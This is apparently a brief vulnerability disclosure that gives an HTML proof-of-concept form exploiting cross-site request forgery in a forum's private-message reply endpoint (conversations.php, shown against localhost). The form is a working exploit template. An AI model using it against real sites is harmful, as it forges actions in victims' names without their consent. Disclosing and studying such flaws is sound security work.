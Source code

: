 # PM Reply CSRF
Allows to send a reply to a private message through CSRF.

## PoC:
```html
<link href="http://localhost/public/themes/Sand/assets/css/sand.css" rel="stylesheet">

<form id="%form_id%" action="http://localhost/conversations.php/cmd/reply/id/1" method="POST" style="padding: 25px;">
    <textarea id="editor" style="width: 100%; height: 300px;" name="content"></textarea>
    <p class="pull-right" style="margin-top:5px;">
        <input type="submit" name="reply" value="Post Reply">
    </p>
</form>
```
